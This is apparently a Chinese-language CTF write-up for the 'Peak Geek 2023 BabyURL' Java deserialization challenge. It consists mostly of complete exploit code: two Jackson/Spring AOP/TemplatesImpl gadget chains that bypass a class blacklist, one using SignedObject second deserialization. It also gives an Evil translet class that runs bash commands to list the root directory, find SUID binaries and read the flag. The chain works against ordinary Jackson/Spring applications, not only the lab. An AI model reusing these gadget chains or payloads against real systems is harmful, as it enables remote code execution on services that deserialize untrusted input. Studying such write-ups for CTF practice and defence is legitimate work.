





+++
title= "巅峰极客2023 BabyURL"
slug= "peak-geek-2023-babyurl"
description= ""
date= "2025-11-29T17:15:06+08:00"
lastmod= "2025-11-29T17:15:06+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

起个 docker

```bash
docker run -it -d -p 12345:8080 -e "FLAG=flag{test_flag}" lxxxin/dfjk2023_babyurl
```



反编译 jar 包，Jackson依赖，



直接给了反序列化接口，不过看了下路由，是无回显的，但是也贴心的给了回显路由`/file`，他使用的类是 URLHelper

```java
package com.yancao.ctf.bean;

import java.io.File;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.Serializable;

/* loaded from: ctf-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/yancao/ctf/bean/URLHelper.class */
public class URLHelper implements Serializable {
    public String url;
    public URLVisiter visiter = null;
    private static final long serialVersionUID = 1;

    public URLHelper(String url) {
        this.url = url;
    }

    private void readObject(ObjectInputStream in) throws Exception {
        in.defaultReadObject();
        if (this.visiter != null) {
            String result = this.visiter.visitUrl(this.url);
            File file = new File("/tmp/file");
            if (!file.exists()) {
                file.createNewFile();
            }
            FileOutputStream fos = new FileOutputStream(file);
            fos.write(result.getBytes());
            fos.close();
        }
    }
}
```

所以只需要把回显写到`/tmp/file`即可。

并且他使用的是  MyObjectInputStream，

```java
package com.yancao.ctf.util;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;

/* loaded from: ctf-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/yancao/ctf/util/MyObjectInputStream.class */
public class MyObjectInputStream extends ObjectInputStream {
    public MyObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        String[] denyClasses = {"java.net.InetAddress", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors", "com.yancao.ctf.bean.URLVisiter", "com.yancao.ctf.bean.URLHelper"};
        for (String denyClass : denyClasses) {
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}
```

过滤了部分类，但是可以打 Jackson 原生反序列化，这次选择二次反序列化的 Jackson 链

poc

```java
package org.babyUrl;


import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;

public class poc {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get(org.babyUrl.Evil.class.getName());
        byte[] bytecodes = evilClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_bytecodes", new byte[][]{bytecodes});
        setField(templates, "_name", "pwnd");
        setField(templates, "_tfactory", new TransformerFactoryImpl());

        Object proxyTemplates = getPOJONodeStableProxy(templates);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) proxyTemplates, kp.getPrivate(), Signature.getInstance("DSA"));

        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        POJONode jsonNode = new POJONode(signedObject);
        BadAttributeValueExpException exception = new BadAttributeValueExpException(null);
        setField(exception, "val", jsonNode);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(exception);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception {
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);

        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);

        Object proxyObj = Proxy.newProxyInstance(
                clazz.getClassLoader(),
                new Class[]{Templates.class, Serializable.class},
                handler
        );
        return proxyObj;
    }

    private static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```



调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(AopUtils.java:344)
at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:208)
at com.sun.proxy.$Proxy0.getOutputProperties(Unknown Source:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:728)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
at com.fasterxml.jackson.databind.SerializerProvider.defaultSerializeValue(SerializerProvider.java:1142)
at com.fasterxml.jackson.databind.node.POJONode.serialize(POJONode.java:115)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:39)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:20)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider._serialize(DefaultSerializerProvider.java:480)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider.serializeValue(DefaultSerializerProvider.java:319)
at com.fasterxml.jackson.databind.ObjectWriter$Prefetch.serialize(ObjectWriter.java:1518)
at com.fasterxml.jackson.databind.ObjectWriter._writeValueAndClose(ObjectWriter.java:1219)
at com.fasterxml.jackson.databind.ObjectWriter.writeValueAsString(ObjectWriter.java:1086)
at com.fasterxml.jackson.databind.node.InternalNodeMapper.nodeToString(InternalNodeMapper.java:30)
at com.fasterxml.jackson.databind.node.BaseJsonNode.toString(BaseJsonNode.java:136)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at org.babyUrl.poc.main(poc.java:58)
```

base64 编码一下打入即可

```java
        String base64 = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(base64);

//        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
//        ObjectInputStream ois = new ObjectInputStream(bais);
//        ois.readObject();
```



还需要提权，使用的恶意类

```java
package org.babyUrl;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            //Runtime.getRuntime().exec("calc");
            //Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "ls / > /tmp/file"});
            //Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "find / -user root -perm -4000 -print 2>/dev/null > /tmp/file"});
            Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "curl file:///flag > /tmp/file"});
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {}
}
```

使用的 pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>BabyURL</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.ctf</groupId>
            <artifactId>ctf-challenge</artifactId>
            <version>0.0.1-SNAPSHOT</version>
            <scope>system</scope>
            <systemPath>F:/Download/ctf-0.0.1-SNAPSHOT.jar</systemPath>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.28.0-GA</version>
        </dependency>

        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.13.3</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-core</artifactId>
            <version>2.13.3</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-annotations</artifactId>
            <version>2.13.3</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-aop</artifactId>
            <version>5.3.22</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>5.3.22</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-beans</artifactId>
            <version>5.3.22</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context</artifactId>
            <version>5.3.22</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-expression</artifactId>
            <version>5.3.22</version>
        </dependency>

    </dependencies>

</project>
```

但是其实刚才看黑名单的时候就会发现，我们这依赖都不在里面，都用不着打二次反序列化，事实确实如此

```java
package org.babyUrl;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;

public class poc2 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get(org.babyUrl.Evil.class.getName());
        byte[] bytecodes = evilClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_bytecodes", new byte[][]{bytecodes});
        setField(templates, "_name", "pwnd");
        setField(templates, "_tfactory", new TransformerFactoryImpl());

        Object proxyTemplates = getPOJONodeStableProxy(templates);

        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        POJONode jsonNode = new POJONode(proxyTemplates);
        BadAttributeValueExpException exception = new BadAttributeValueExpException(null);
        setField(exception, "val", jsonNode);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(exception);
        oos.close();

        String base64 = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(base64);
    }

    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception {
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);

        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);

        Object proxyObj = Proxy.newProxyInstance(
                clazz.getClassLoader(),
                new Class[]{Templates.class, Serializable.class},
                handler
        );
        return proxyObj;
    }

    private static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```



这里就不说哪个是预期，哪个是非预期了，都一样，但是网上那种弹 shell 的做法肯定不对，不然作者给这个回显接口干嘛

> https://xz.aliyun.com/news/16115
>
> https://qu43ter.top/undefined/69c1/index.html
